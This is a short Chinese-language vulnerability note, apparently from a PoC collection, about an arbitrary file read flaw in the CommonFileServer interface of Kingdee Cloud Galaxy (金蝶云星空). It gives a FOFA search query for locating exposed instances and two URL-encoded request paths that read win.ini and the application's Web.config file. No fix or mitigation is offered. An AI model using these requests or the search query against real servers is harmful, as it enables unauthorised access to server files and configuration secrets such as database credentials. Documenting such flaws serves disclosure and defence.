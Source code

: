 # 金蝶OA 云星空 CommonFileServer 任意文件读取漏洞

# 金蝶OA 云星空 CommonFileServer 任意文件读取漏洞

## 漏洞描述

金蝶OA 云星空 CommonFileServer接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件，进一步攻击服务器

## 漏洞影响

金蝶OA 云星空

## 网络测绘

```
app="金蝶云星空-管理中心"
```

## 漏洞复现

登陆页面

![image-20230828142952286](images/image-20230828142952286.png)

验证POC

```
/CommonFileServer/c%3a%2fwindows%2fwin.ini
/CommonFileServer/C%3A%5CProgram%20Files%20%28x86%29%5CKingdee%5CK3Cloud%5CWebSite%5CWeb.config
```

![image-20230828143007869](images/image-20230828143007869.png)

